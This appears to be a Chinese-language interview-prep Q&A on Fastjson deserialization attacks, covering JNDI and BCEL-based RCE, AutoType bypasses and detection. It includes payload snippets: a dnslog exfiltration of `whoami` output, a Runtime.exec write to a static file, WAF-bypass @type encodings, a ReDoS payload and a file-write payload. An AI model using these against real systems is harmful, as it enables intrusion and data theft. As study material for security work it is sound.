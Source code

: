 # Fastjson

### 使用`JSON.parse()`和`JSON.parseObject()`的不同（★）[+]

前者会在JSON字符串中解析字符串获取`@type`指定的类，后者则会直接使用参数中的`class`，并且对应类中(符合规范的)所有`getter`和`setter`都会被调用



### 什么情况下反序列化过程会反射调用`getter`（★）[+]

符合`getter`规范的情况且不存在`setter`



### 如果不存在`setter`和`getter`方法可以反射设置值吗（★）[+]

需要服务端开启`Feature.SupportNonPublicFiel`参数，实战无用



### Fastjson在反序列化`byte[]`类型的属性时会做什么事情（★）[+]

将会在反序列化时进行`base64`编码



### 谈谈常见的几种Payload（★★★）[+]

首先是最常见的`JdbcRowSetImpl`利用`JNDI`注入方式触发，**需要出网**

利用`TemplatesImpl`类比较鸡肋，**需要服务端开启特殊参数**

不出网的利用方式有一种`BasicDataSource`配合`BCEL`可实现`RCE`

另外某个版本之后支持`$ref`的功能，也可以构造一些Payload



### 是否存在不出网的Fastjson利用方式（★★★）

第一种是`TemplatesImpl`类加载字节码做到不出网利用，但需要开启特殊参数(`Feature.SupportNonPublicField`)实战鸡肋. (分为命令执行和内存马)

- 如何让它有回显：

  - dnslog外带:	

    ```md
    `whoami`.xxxxxx.dnslog.cn
    ```

  - 静态资源写⽂件:

    假设已经知道⽹站路径，拼接路径为：

    ```md
    /root/java_vuln_code-master/src/main/resources/static/js/consoleinfo.js
    ```

    则命令参数这么写:

    ```java
    Runtime.getRuntime().exec("whoami >> /root/java_vuln_code-
    master/src/main/resources/static/js/consoleinfo.js");
    ```

    

第二种方式是服务端存在在`tomcat-dbcp.jar`情况下，使用`BasicDataSource`配合`BCEL`可实现不出网`RCE` (同样能通过此方式写内存马)	——[浅析FastJson不出网利用方式](https://forum.butian.net/share/2040)

​											

### 谈谈1.2.47版本之前各个小版本的绕过（★★★）[+]

首先是利用解析问题可以加括号或大写L绕过低版本，高版本利用了哈希黑名单，之所以要哈希是因为防止黑客进行分析。但黑名单还是被破解了，有师傅找到可以绕过了类。在1.2.47版本中利用缓存绕过



### Fastjson应该如何探测（★★）[+]

使用`dnslog`做检测是最常见的方式，利用`java.net.Inet[4][6]Address`或`java.net.InetSocketAddress`或`java.net.URL`类，之所以使用这三个因为不在黑名单中，可以直接检测

除了这种方式，还可以自行实现虚假的`JNDI Server`作为反连平台，用`JdbcRowSetImpl`这样的`Payload`来触发

如果不能出网，可以结合不出网的利用方式和中间件的回显手段，执行无害命令检测，或利用报错回显



### 谈谈1.2.68版本的绕过（★★）[+]

1.2.68之前的66和67可以利用`JNDI`相关类，比如`Shiro`的`JndiObjectFactory`和`ignite`项目的类

1.2.68中有一个期望类属性，实现了期望接口的类可以被反序列化

利用类必须是`expectClass`类的子类或实现类，并且不在黑名单中，即可直接绕过`AutoType`检测，例如常见的`AutoCloseable`

这样的Payload通常第一个`@type`是`AutoCloseable`等合法类，第二个`@type`是恶意类，后续参数是恶意类需要的参数



### 谈谈Fastjson的WAF Bypass手段（★★★）[+]

Fastjson默认会去除键值外的空格、\b、\n、\r、\f等字符，同时还会自动将键值进行`unicode`与十六进制解码

例如针对`@type`的绕过：`\u0040\u0074\u0079\u0070\u0065`

加入特殊字符的绕过：`{\n"@type":"com.sun.ro wset.JdbcRowSetImpl"...}`



### 除了RCE还能有什么利用（★★★）

信息泄露或者ReDoS，参考下方Payload

```json
{
    "regex":{
        "$ref":"$[\blue = /\^[a-zA-Z]+(([a-zA-Z])?[a-zA-Z]*)*$/]"
    },
    "blue":"aaaaaaaaaaaaaaaaaaaaaaaaaaaa!"
}
```

还可以实现写文件，例如以下这个针对1.2.68写文件的Payload

```json
{
  "@type": "java.lang.AutoCloseable",
  "@type": "java.io.FileOutputStream",
  "file": "/tmp/nonexist",
  "append": "false"
}
```



### 是否了解自动挖掘Fastjson利用链的方式（★★★★）

利用链主要集中在`getter`和`setter`方法中，如果`getter`或者`setter`的方法中存在一些危险操作比如`JNDI`查询，如果参数可控就可以导致`JNDI`注入

简单来说，直接搜对应项目中`JNDI`的`lookup`方法，可以基于`ASM`解压分析`Jar`包，这种半自动结合人工审核的方式其实很好用（之前挖到过几个）

进一步来说，全自动的方式可以使用`codeql`或`gadget-inspector`工具来做，主要是加入了污点传递，分析`getter/setter`参数如何传递到`lookup`

关于全自动分析原理，一般面试官不会问太深入，因为可能涉及到静态分析相关的技术，如果是实验室可能需要进一步学习